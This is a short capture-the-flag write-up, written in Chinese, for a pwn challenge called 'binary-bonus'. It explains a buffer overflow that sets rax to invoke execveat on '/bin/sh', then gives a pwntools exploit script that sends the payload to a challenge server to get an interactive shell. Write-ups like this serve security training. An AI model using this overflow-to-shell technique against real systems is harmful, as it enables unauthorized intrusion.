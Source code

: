 ### binary-bonus

本題僅能控`rax` (syscall 0 return 1 ~ 0x148)以及`rsi`，查syscall表查到唯一可用為`execveat(0, "/bin/sh", 0, 0, 0)`，故buffer overflow時先寫入`"/bin/sh"`及調整`rax`為`322`，接著在`ret`的位置寫入`0x4000ed`(不能直接跳到syscall，要先將`rdx`清空)

#### exploit
```python
#!/usr/bin/env python3
from pwn import *

context.update(arch='amd64', os='linux')

payload = b'/bin/sh\x00'
payload += cyclic(296 - len(payload)).encode()
payload += p64(0x4000ED) # xor rdx, rdx; syscall
payload += cyclic(321 - len(payload)).encode()

r = remote('pwnhub.tw', 55688)
r.sendline(payload)
r.interactive()
```
